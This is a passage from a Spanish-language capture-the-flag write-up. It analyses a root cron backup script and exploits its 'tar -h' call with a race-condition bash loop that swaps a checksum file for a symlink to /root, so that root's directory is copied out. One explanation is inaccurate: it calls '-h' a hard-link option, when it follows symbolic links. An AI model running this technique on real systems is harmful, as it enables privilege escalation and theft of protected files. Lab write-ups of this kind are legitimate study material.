 ```console
tom@epsilon:/tmp$ ping -c 1 172.19.0.2
1 packets transmitted, 1 received, 0% packet loss, time 0ms # En efecto
```
El conteneder es lo que debe correr la app supongo. Subo un detector de [procesos](https://github.com/CUCUxii/Pentesting-tools/blob/main/procmon.sh)  

```console
tom@epsilon:/tmp$ ./procmon.sh
> /bin/sh -c /usr/bin/backup.sh
> /bin/bash /usr/bin/backup.sh
```
---------------------------------
## Parte 5: Escalando privilegios gracias a enlaces simbólicos

Encontramos este script:
```bash
#!/bin/bash
file='date +%N' # Fecha actual en nanosegundos
/usr/bin/rm -rf /opt/backups/*  # Elimina todo lo que haya en /opt/backups/
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/ # Comprime lo de /var/www/app/ y lo mete en /opt/backups/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum # Hace un hash del archivo y lo mete en /opt/backups/checksum 

sleep 5 # Espera cinco segundos
check_file='date +%N' # Otra vez calcula el tiempo en nanosegundos
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar" 
# Comprime /opt/backups/checksum y /opt/backups/$file.tar y lo mete en /var/backups/web_backups/${check_file}.tar
/usr/bin/rm -rf /opt/backups/* # Luego vuelve a vaciar el directorio /opt/backups
```

O sea estamos tratando con un script que cada cinco segundos nos vacia el /opt/backups. En cambio los archivos de /var/backups/web_backups se mantienen mas tiempo.   
Si hacemos ```watch -n 1 ls /opt/backups/``` Encontramos en un breve tiempo **678160166.tar** y **checksum**  

Las opciones de tar son **-c** y **-f** que son para crear un archivo:  
 > ```tar tar -cvf etc.tar /etc``` Comprime lo que haya en /etc dentro de etc.tar    
El probelma es la segunda vez que usa este comando con la opción **-h** que tiene que ver con enlaces duros.    
En /var/www/app/ hay las rutas /img/ con fotos, /app.py que es el codigo que ya teniamos y los htmls de las otras rutas.  
Si se sustituye el cheksum por un enlace a /root/ (```ln -s /root checksum```) y luego copiamos el tar que cree a /tmp nos habrá volcado los contenidos de root.  

Como hay que ser rapidos con el tiempo mejor que se escriptee esto:  
```bash
#!/bin/bash
while true; do
        if [ -e /opt/backups/checksum ]; then
                echo "[*] Existe el archivo"; rm -rf /opt/backups/checksum   # Elimina el cheksum original
                echo "[*] Creando el enlace a /root"; ln -s /root /opt/backups/checksum; sleep 5  # Crea uno nuevo que apunte a la carpeta del root
                break
        fi
        cp /var/backups/web_backups/*.tar /tmp/tars  # Copia ese nuevo tar (o tars) que se ha creado a /tmp/tars para que no se borren
done
```
